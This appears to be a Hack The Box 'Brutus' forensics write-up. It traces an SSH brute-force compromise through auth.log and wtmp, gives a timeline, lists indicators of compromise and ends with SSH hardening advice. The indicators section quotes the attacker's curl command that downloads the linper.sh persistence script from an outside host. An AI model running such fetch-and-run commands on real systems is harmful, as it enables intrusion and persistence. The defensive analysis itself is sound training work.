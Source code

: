 # HTB: Brutus - Forensic Analysis Writeup

![HTB Brutus](https://labs.hackthebox.com/storage/challenges/b7bb35b9c6ca2aee2df08cf09d7016c2.png)

## Overview

This writeup details the forensic investigation performed on the Hack The Box challenge **Brutus**. The analysis focuses on SSH authentication events, brute-force login activity, and post-compromise attacker behavior by reviewing `auth.log` and `wtmp` files extracted from a compromised Linux host.

---

## Box Information

| Attribute     | Value                  |
|---------------|------------------------|
| **Name**      | Brutus                 |
| **OS**        | Linux                  |
| **Category**  | Forensics / Incident Response |
| **Difficulty**| Medium                 |
| **Release**   | 2024                   |
| **Author**    | HTB Team               |

---

## Collected Evidence

The following log files were provided for analysis:

- **`auth.log`** – Syslog-format authentication log tracking logins, failures, and related events.
- **`wtmp`** – Binary session log that records user logins and logouts.

Both files were acquired from the target system post-compromise.

---

## Tools Used

- Command-line text utilities: `cut`, `grep`, `sort`, `uniq`, `rev`
- `last` – for parsing and viewing `wtmp`
- `head`, `less` – for manual log inspection

---

## Timeline of Events

| Date & Time         | Event Description                                      |
|---------------------|-------------------------------------------------------|
| Mar 6, 06:18:01     | CRON job executed by `confluence`                     |
| Mar 6, 06:19:54     | Successful root SSH login from `203.101.190.9`        |
| Mar 6, 06:31:33-42  | Burst of failed SSH logins; brute-force activity      |
| Mar 6, 06:31:40     | Successful root SSH login from `65.2.161.68`          |
| Mar 6, 06:32:44     | Successful root SSH login from `65.2.161.68`          |
| Mar 6, 06:37:34     | Successful `cyberjunkie` SSH login from `65.2.161.68` |

---

## Analysis

### Log File Time Discrepancies

- `auth.log` records the initiation of SSH authentication attempts.
- `wtmp` logs the beginning of user sessions (only after successful authentication).
- This explains the observed 1-second differences in the same event between the two logs.

---

### Log Activity Summary

**Top Programs by Log Activity:**
```bash
cat auth.log | cut -d' ' -f 6 | cut -d '[' -f 1 | sort | uniq -c | sort -nr
```
```
257 sshd
104 CRON
  8 systemd-logind
  6 sudo:
  3 groupadd
  2 usermod
  2 systemd:
  1 useradd
  1 passwd
  1 chfn
```
- High SSH activity suggests systematic brute-force attempts.
- User management commands indicate new accounts or privilege escalation steps.

---

### Brute-Force SSH Attempts

**Failed Logins:**
```bash
cat auth.log | grep Failed | cut -d: -f4 | cut -d' ' -f5- | rev | cut -d' ' -f6- | rev | sort | uniq -c | sort -nr
```
```
12 invalid user server_adm
11 invalid user svc_account
10 invalid user admin
 9 backup
 6 root
```
- The high concentration of attempts on different usernames within seconds confirms automated brute-force tools were used.

---

### Successful SSH Logins

**Accepted Passwords:**
```bash
cat auth.log | grep "Accepted password"
```
```
Mar  6 06:19:54 - root login from 203.101.190.9
Mar  6 06:31:40 - root login from 65.2.161.68
Mar  6 06:32:44 - root login from 65.2.161.68
Mar  6 06:37:34 - cyberjunkie login from 65.2.161.68
```
- The attacker succeeded in logging in as `root` and later as `cyberjunkie` from `65.2.161.68`, immediately after the brute-force burst.

---

### Indicators of Compromise (IoCs)

- **Malicious IP Address:** `65.2.161.68` (primary attack source)
- **Compromised Accounts:** `root`, `cyberjunkie`
- **Attack Vector:** SSH brute-force followed by successful password authentication
- **Suspicious Activity:** Downloaded and executed `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` (potential post-exploitation script)

---

## Observations

- **Automation:** The attacker used scripts or tools to automate SSH login attempts for common usernames.
- **Persistence:** Creation/use of a secondary user (`cyberjunkie`) for persistent access.
- **Post-exploitation:** The use of `linper.sh` suggests attempts at privilege escalation or enumeration.

---

## Recommendations

- **Disable direct SSH login for root**:
    ```
    PermitRootLogin no
    ```
- **Enforce key-based SSH authentication**:
    ```
    PasswordAuthentication no
    ```
- **Limit authentication attempts**:
    ```
    MaxAuthTries 3
    ```
- **Deploy fail2ban or similar** to block brute-force attempts.
- **Rotate all passwords** for affected or exposed accounts.
- **Audit for persistence**: Review for new/unknown user accounts.
- **Perform full forensic imaging** of memory and disk for deeper investigation.

---

## Conclusion

The investigation confirms a brute-force SSH attack from `65.2.161.68` led to compromise of the `root` and `cyberjunkie` accounts. The attacker established persistence and ran post-exploitation scripts due to insufficient SSH hardening. Implementation of best practices for SSH security and intrusion prevention is strongly recommended to prevent future incidents.

---

**Author:** 0xdf-sec  
**Date:** June 2, 2025  
**Tags:** `hackthebox` `forensics` `incident-response` `ssh` `bruteforce` `linux`
